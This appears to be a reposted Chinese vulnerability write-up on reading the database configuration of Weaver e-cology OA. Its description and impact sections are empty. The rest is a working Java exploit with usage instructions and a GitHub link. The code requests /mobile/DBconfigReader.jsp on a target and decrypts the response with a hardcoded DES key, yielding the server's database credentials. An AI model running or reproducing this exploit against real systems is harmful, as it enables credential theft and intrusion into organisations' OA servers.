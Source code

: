 # 泛微OA数据库配置文件读取

> 原文：[https://www.zhihuifly.com/t/topic/3328](https://www.zhihuifly.com/t/topic/3328)

# 泛微OA 数据库配置文件读取

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

https://github.com/ianxtianxt/ecologyExp.jar

使用方式：

jdk 1.8以上，没混淆可以直接看源码

使用方法：

java -jar ecologyExp.jar http://0-sec.org

源代码如下，编译好的在上方github链接里。

```
package com.test;

import org.apache.http.HttpEntity;

import org.apache.http.client.methods.CloseableHttpResponse;

import org.apache.http.client.methods.HttpGet;

import org.apache.http.impl.client.CloseableHttpClient;

import org.apache.http.impl.client.HttpClientBuilder;

import org.apache.http.util.EntityUtils;

import javax.crypto.Cipher;

import javax.crypto.SecretKey;

import javax.crypto.SecretKeyFactory;

import javax.crypto.spec.DESKeySpec;

import java.security.SecureRandom;

public class ReadDbConfig {

private final static String DES = “DES”;

private final static String key = “1z2x3c4v5b6n”;

```
public static void main(String[] args) throws Exception {
    if(args[0]!=null&amp;&amp; args[0].length() !=0){
        String url = args[0]+"/mobile/DBconfigReader.jsp";
        System.out.println(ReadConfig(url));
    }else{
        System.err.print("use: java -jar ecologyExp  http://127.0.0.1");
    }
}

private static String ReadConfig(String url) throws Exception {
    CloseableHttpClient httpClient = HttpClientBuilder.create().build();
    HttpGet httpGet = new HttpGet(url);
    CloseableHttpResponse response = httpClient.execute(httpGet);
    HttpEntity responseEntity = response.getEntity();

    byte[] res1 = EntityUtils.toByteArray(responseEntity);

    byte[] data = subBytes(res1,10,res1.length-10);

    byte [] finaldata =decrypt(data,key.getBytes());

    return (new String(finaldata));
}

private static byte[] decrypt(byte[] data, byte[] key) throws Exception {

    SecureRandom sr = new SecureRandom();
    DESKeySpec dks = new DESKeySpec(key);
    SecretKeyFactory keyFactory = SecretKeyFactory.getInstance(DES);
    SecretKey securekey = keyFactory.generateSecret(dks);
    Cipher cipher = Cipher.getInstance(DES);
    cipher.init(Cipher.DECRYPT_MODE, securekey, sr);

    return cipher.doFinal(data);
}

public static byte[] subBytes(byte[] src, int begin, int count) {
    byte[] bs = new byte[count];
    System.arraycopy(src, begin, bs, 0, count);
    return bs;
} 
``` `}` 
```
